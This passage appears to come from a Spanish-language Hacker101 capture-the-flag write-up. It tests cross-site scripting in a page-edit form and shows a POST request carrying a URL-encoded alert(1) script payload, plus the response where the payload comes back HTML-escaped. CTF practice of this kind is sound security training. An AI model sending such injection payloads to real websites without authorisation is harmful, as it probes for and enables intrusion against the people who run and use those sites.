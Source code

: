 ```HTTP
```

**XSS en parámetros**

1. Payload: `<script>alert(1);</script>`
```HTTP
POST /page/edit/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 96
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4

title=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&body=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E


HTTP/1.1 302 FOUND
Connection: keep-alive
Content-Length: 201
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 16:54:58 GMT
Location: /page/1
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/page/1">/page/1</a>. If not, click the link.
```

**Resultado**
```HTTP
GET /page/edit/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: c2185aa9c020ec27aed9835fe5d78864.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 657
Content-Type: text/html; charset=utf-8
Date: Sun, 03 Aug 2025 16:55:31 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title>Edit page</title>
    </head>
    <body>
        <a href="../../">&lt;-- Go Home</a>
        <h1>Edit Page</h1>
        <form method="POST">
            Title: <input type="text" name="title" value="&lt;script&gt;alert(1);&lt;/script&gt;"><br>
            <textarea name="body" rows="10" cols="80">&lt;script&gt;alert(1);&lt;/script&gt;</textarea><br>
```